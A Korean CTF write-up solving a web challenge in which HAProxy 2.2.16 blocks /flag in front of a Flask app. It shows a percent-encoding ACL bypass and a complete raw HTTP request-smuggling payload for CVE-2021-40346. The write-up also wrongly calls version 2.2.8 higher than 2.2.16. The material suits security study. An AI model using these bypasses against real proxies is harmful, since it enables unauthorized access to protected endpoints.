```yaml
---
layout: post
category: [wargame, web]
title: Smuggling
---
```


## [문제](https://h4ckingga.me/challenges#Smuggling-15)


## 문제 분석

문제 웹페이지 사진   
![main](/assets/img/2024-06-03-smuggling/main.png)

다양한 엔드포인트를 Bruteforce(?) 해보았으나 전부 404 오류가 발생하였다.. ``/admin`` ``/dashboard`` ``/login`` 등...

서버는 gunicorn을 사용한다는 것을 알 수 있었다.   
![gunicorn](/assets/img/2024-06-03-smuggling/server_info.png)

일단 문제에 주어진 서버 파일을 살펴보았다.

```py
# main.py
from flask import Flask

app = Flask(__name__)

flag = open("FLAG").read()

@app.route('/', methods=['GET', 'POST'])
def main():
    return 'Hello! Our Team is TeamH4C'

@app.route('/guest', methods=['GET', 'POST'])
def guest():
    return 'ref. jfrog'

@app.route('/flag', methods=['GET', 'POST'])
def get_flag():
	return flag


if __name__ == '__main__':
    app.run()
```

엔드포인트는 3개로 ``/guest`` ``/flag`` 가 있는 걸 확인할 수 있었다.

``/flag`` 엔드포인트에 접속해보았다.

![403](/assets/img/2024-06-03-smuggling/forbidden.png)

서버 소스에는 403 에러가 발생하는 부분이 없으나, ``/flag`` 엔드포인트에 접속하면 403 에러로 접근을 거부하고 있는 것을 알 수 있다.

서버 코드가 너무 심플한데.... 서버에서 403을 일으키진 않는 것 같아 문제 파일을 조금 더 살펴보았다.

```yaml
# docker-compose.yaml
version: '3.7'
services:
  web:
    image: haproxy:2.2.16
    volumes:
      - ./config:/usr/local/etc/haproxy
    ports:
      - "10008:8000"
  flask:
    build: .
```

이 파이썬 앱은 ``docker-compose`` 를 이용하여 도커 환경의 서버에서 서빙되고 있는 것을 알 수 있다. 또한 파이썬 앱에 직접적으로 연결되는 것이 아닌 ``haproxy`` 라고 하는 리버스 프록시 서버 뒤에서 작동하는 것을 확인하였다.

``config/haproxy.cfg`` 파일을 보면
```
frontend web 
    bind *:8000  
    http-request deny if { path_beg /flag }
    http-request deny if { path_beg // }
```
위 부분에서 ``path_beg`` 가 ``/flag`` 의 경우 http 요청을 거부하는 규칙이 있음을 알 수 있다.

또한 아래의 설정 구문을 보면, flask 호스트네임의 5000번으로 요청을 프록시하고 있는 것을 알 수 있다.
```
backend websrvs 
    http-reuse always
    server srv1 flask:5000
```

그래서 이제 haproxy가 ``/flag`` 엔드포인트에 접근을 막고 있는 것을 알게 되었다. 구글링 해볼 시간이다.

![구글신 만세](/assets/img/2024-06-03-smuggling/google.png)

검색 결과를 확인해보니 인코딩된 URL로 요청하면 통과가 가능하다는 글과
HAProxy 가 ACL(Access Control List) bypass 를 가능하게 한다는 레딧 글이 있다.


## Percent Encoding 으로 우회하여 해결하는 방법

[첫번째 글](https://discourse.haproxy.org/t/encoded-url-not-matching-path-beg-or-url-dec/6710) 에선 ``%44%43`` 이런 식으로 인코딩이 되어 있는 주소로 접근할 때에 ACL 바이패스가 가능하다는 글이였다.

이 글에서의 haproxy 버전은 ``2.2.8`` 로 dockerfile 에 명시된 ``haproxy:2.2.16`` 버전보다 높기 때문에 문제 페이지의 haproxy 는 취약할 것이라고 생각된다.

이를 통해 [인코딩](https://developer.mozilla.org/en-US/docs/Glossary/Percent-encoding) 된 URL 로 ``/flag`` 주소를 접근하면 플래그를 획득할 수 있다.

> Percent Encoding 이란?   
특별한 의미가 있는 8비트 문자를 URL 내에서 인코딩 할 때에 사용하는 방법이다.   
인코딩은 % 와 대체 문자의 ASCII 값에 대한 16진수 표현으로 구성된다.   
예를 들어 Hello 의 경우 ACSII 값으로 "72 101 108 108 111" 이고 이를 16진수 Hex로 바꿔서 각 Hex 에 %를 대입한 후 "%48 %65 %6c %6c %6f" 주소창에 입력하면 Hello 가 나오는 것을 볼 수 있다.

```js
const toEncode = "flag"
[...toEncode].map(e => e.charCodeAt()).map(e => "%" + e.toString(16)).join("")
```

위와 같은 자바스크립트 코드로 ``flag`` 를 Percent Encoding 으로 인코딩 후 ``/%66%6c%61%67`` 주소로 접근할 경우 플래그를 얻을 수 있다.

![FLAG](/assets/img/2024-06-03-smuggling/flag.png)

## HTTP Smugggling 으로 해결한 방법
[두번째 글](https://www.reddit.com/r/sysadmin/comments/pl5hjb/haproxy_vulnerability_allows_acl_bypass/) 의 경우, 이 글이 링크되어 있다.

[HAProxy vulnerability enables HTTP request smuggling attacks | The Daily Swig \(portswigger.net\)](https://portswigger.net/daily-swig/haproxy-vulnerability-enables-http-request-smuggling-attacks)

"Security researchers have disclosed a HTTP request smuggling vulnerability in HAProxy, the popular open source load balancer."
> 보안 연구원들이 인기 있는 오픈 소스 로드 밸런서인 HAProxy의 HTTP Request Smuggling 취약점을 공개했습니다.
   
"Researchers at DevOps platform JFrog demonstrated how an integer overflow flaw (CVE-2021-40346) can be abused to perform HTTP request smuggling attacks that bypass any access control lists (ACLs) defined in HAProxy."
> DevOps 플랫폼 JFrog의 연구원들은 정수 오버플로 결함(CVE-2021-40346) 을 악용하여 HAProxy에 정의된 ACL(액세스 제어 목록) 을 우회하는 HTTP Request Smuggling 공격을 수행할 수 있는 방법을 시연했습니다.

``JFrog의 연구원들`` 아까 서버 코드에 ref. jfrog 라고 적혀있는 게 힌트였던 것 같다.

```
POST /guest HTTP/1.1
Host: web.h4ckingga.me:10008
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 23

GET /flag HTTP/1.1
h:GET /guest HTTP/1.1
Host: web.h4ckingga.me:10008

```

